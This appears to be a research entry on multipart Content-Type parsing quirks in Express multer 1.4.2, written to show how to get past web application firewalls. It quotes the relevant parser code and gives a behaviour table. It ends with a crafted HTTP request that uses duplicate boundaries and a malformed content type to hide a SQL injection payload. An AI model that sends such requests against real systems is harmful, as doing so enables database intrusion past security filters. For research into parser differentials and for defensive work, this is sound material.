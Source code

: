 ### Express multer 1.4.2

**Endpoint**
```js
var express = require('express')
var app = express()
var multer  = require('multer')
var upload = multer()

app.post('/', upload.none(), function (req, res, next) {
  data = req.body
```

**Source code**  

[/expressjs/multer/lib/make-middleware.js](https://github.com/expressjs/multer/blob/d4e7cd822099ce0fea22b5a5070b848f38a35b2d/lib/make-middleware.js#L17-L18)
```js
return function multerMiddleware (req, res, next) {
  if (!is(req, ['multipart'])) return next()
```

[/jshttp/type-is/index.js](https://github.com/jshttp/type-is/blob/c1f4388c71c8a01f79934e68f630ca4a15fffcd6/index.js#L161-L171)
```js
function normalize (type) {
  ...
  switch (type) {
  ...
    case 'multipart':
      return 'multipart/*'
```

[/mscdex/busboy/lib/types/multipart.js](https://github.com/mscdex/busboy/blob/db9b25f2b88fd4689d78d74b1fdc9de7f10d5f3d/lib/types/multipart.js#L23)
```js
Multipart.detect = /^multipart\/form-data/i;
```

**Content-Type**  
```
multipart/form-dataXXX
```

**Multipart Content-Type**
| Check             | Value            |
|-------------------|------------------|
| Mime-Type         | case-insensitive |
| Multiple boundary | first position   |
| Boundary key      | case-insensitive |

**HTTP Request**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: MULTIPART/FORM-DATAXXX; BOUNDARY=xxx; boundary=yyy
Content-Length: 187

--yyy
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--xxx
Content-Disposition: form-data; name="q"

' union select '1
--xxx--
--yyy--
```